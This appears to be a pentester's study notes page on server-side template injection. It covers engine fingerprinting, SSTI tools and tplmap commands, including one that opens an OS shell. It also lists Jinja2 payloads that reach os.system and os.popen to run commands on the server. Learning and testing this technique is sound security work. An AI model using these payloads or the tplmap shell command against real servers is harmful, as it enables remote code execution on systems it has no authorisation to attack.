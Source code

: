 # Server-Side Template Injection (SSTI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssti_server_side_template_injection](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/)
[![ssti](../../../../_badges/poat/ssti.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.

To guess the template engine, we can try every token (`${{<%[%'"}}%\`) with expressions such as `7*7` or `7*'7'` and look for the output/errors.

* [Port Swigger SSTI Decision Tree](https://portswigger.net/web-security/images/template-decision-tree.png)
* [Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/)
</div><div>

There are a few tools you might use:

* [TInjA](https://github.com/Hackmanit/TInjA) <small>(0.2k ⭐)</small>
* [sstimap](https://github.com/vladko312/sstimap) <small>(0.6k ⭐)</small>
* [tplmap](https://github.com/epinna/tplmap) <small>(3.6k ⭐, 2022 🪦)</small>

```ps
$ tplmap -u 'http://example.com:80/*'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy' --os-shell
```
</div></div>

<hr class="sep-both">

## Well-Known Template Engines

<div class="row row-cols-lg-2"><div>

#### Jinja2 Template Engine — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![jinja2_ssti](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

Refer to [JinJa2 Notes](/programming-languages/web/topics/templating/jinja2/index.md) if needed.

* Basic Fingerprint PoC: `{{ "PoC"|e }}`
* Test if debug is enabled: `{% debug %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might be able to perform code injection:

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
{{ lipsum.__globals__.os.popen('ls -1a').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -1a').read() }}
```

⚠️ Before, we were using longer payloads as [explained here](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/).
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `{{ self.__init__.__globals__.__builtins__.__import__('os') }}`
</div><div>
</div></div>